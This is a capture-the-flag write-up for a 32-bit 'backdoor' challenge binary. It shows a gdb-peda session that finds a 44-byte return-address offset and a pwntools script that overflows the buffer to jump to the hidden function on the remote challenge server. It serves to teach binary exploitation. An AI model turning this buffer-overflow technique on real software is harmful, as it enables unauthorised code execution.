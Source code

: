 
## Live demo
[backdoor binary to solve](res/backdoor)
### Methodology
The only commands *needed* to solve the challenge, normally you try a couple different things in between as trial and error but this is a *perfect solution*. checksec in gdb was not ran during the demo, but it's recommended to see which safety measures are enabled/disabled! The meaning of the safety measures are described in the gdb cheatsheet above.
``` 
josch@DESKTOP-IHQHF33:~/Documents/hs-ctf-h20/pwn/backdoor/source$ file backdoor
backdoor: ELF 32-bit LSB executable, Intel 80386 *snip*
josch@DESKTOP-IHQHF33:~/Documents/hs-ctf-h20/pwn/backdoor/source$ gdb ./backdoor
*snip*
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
*snip*
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r
*snip*
*paste pattern from above*
*snip*
Stopped reason: SIGSEGV
0x41414641 in ?? ()
gdb-peda$ pattern offset 0x41414641
1094796865 found at offset: 44
```

### Final solve script
```python
from pwn import *

#io = process("./backdoor")
io = remote("backdoor.heltsikker.no", 9002)

binary = ELF("./backdoor")

padding = b"A" * 44
target = p32(binary.symbols["backdoor"])

print(padding + target)
io.sendline(padding + target)

io.interactive()
```
